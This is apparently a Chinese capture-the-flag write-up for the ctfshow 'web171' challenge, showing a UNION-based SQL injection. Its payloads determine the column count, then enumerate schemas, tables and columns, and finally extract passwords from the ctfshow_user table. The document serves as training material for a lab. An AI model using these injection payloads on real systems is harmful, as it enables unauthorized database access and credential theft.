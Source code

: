 # web171
![](vx_images/402384862623103.png)
判断列数,列数为3
![](vx_images/97333958744603.png)
判断回显位
![](vx_images/236823965807719.png)
![](vx_images/594281380588071.png)

爆库
```
1' union select database(),2,schema_name from information_schema.schemata--+
```
![](vx_images/42613661716598.png)

爆表
```
1' union select database(),2,table_name from information_schema.tables where table_schema='ctfshow_web'--+
```
![](vx_images/132105227289366.png)
爆字段
```
1' union select database(),2,column_name from information_schema.columns where table_name='ctfshow_user'--+
```
![](vx_images/497673932622870.png)
爆字段
```
1' union select database(),2,password from ctfshow_user--+
```
![](vx_images/200332879181361.png)